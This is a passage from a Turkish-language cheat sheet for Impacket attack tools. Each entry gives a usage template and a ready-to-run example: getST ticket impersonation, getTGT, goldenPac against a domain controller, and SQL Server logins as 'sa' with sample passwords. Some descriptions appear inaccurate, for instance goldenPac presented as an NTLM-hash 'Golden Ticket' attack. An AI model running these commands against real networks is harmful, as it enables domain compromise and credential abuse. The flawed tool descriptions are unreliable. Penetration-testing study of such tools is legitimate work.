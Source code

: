 ```
**Örnek:**
```
impacket-getST -targetUser user1 -domain corp.local -hashes a7b9c9... -spn ldap/dc.corp.local
```
---

## 47. impacket-getTGT
**Ne İşe Yarar:**
Bir kullanıcının Kerberos bileti olan Ticket Granting Ticket (TGT) elde etmek için kullanılır.

**Kullanımı:**
```
impacket-getTGT <username>:<password> -dc-ip <domain_controller>
```
**Örnek:**
```
impacket-getTGT admin:Password123 -dc-ip 192.168.1.5
```
---

## 48. impacket-goldenPac
**Ne İşe Yarar:**
Active Directory'de NTLM hash'lerini kullanarak "Golden Ticket" saldırısı gerçekleştirmek için kullanılır.

**Kullanımı:**
```
impacket-goldenPac <domain>/<username>:<password>@<target>
```
**Örnek:**
```
impacket-goldenPac corp.local/admin:Password123@192.168.1.10
```
---

## 49. impacket-mssqlclient
**Ne İşe Yarar:**
Microsoft SQL Server'lara bağlanmak ve komut çalıştırmak için kullanılan bir araçtır.

**Kullanımı:**
```
impacket-mssqlclient <username>:<password>@<target>
```
**Örnek:**
```
impacket-mssqlclient sa:Password123@192.168.1.20
```
---

## 50. impacket-mssqlinstance
**Ne İşe Yarar:**
Microsoft SQL Server'da aktif olan tüm instance'ları bulmak için kullanılır.

**Kullanımı:**
```
impacket-mssqlinstance <username>:<password>@<target>
```
**Örnek:**
```
impacket-mssqlinstance sa:Password123@192.168.1.20
```
---

## 51. impacket-ping6
**Ne İşe Yarar:**
IPv6 adreslerine ping atmak için kullanılan bir araçtır.
```
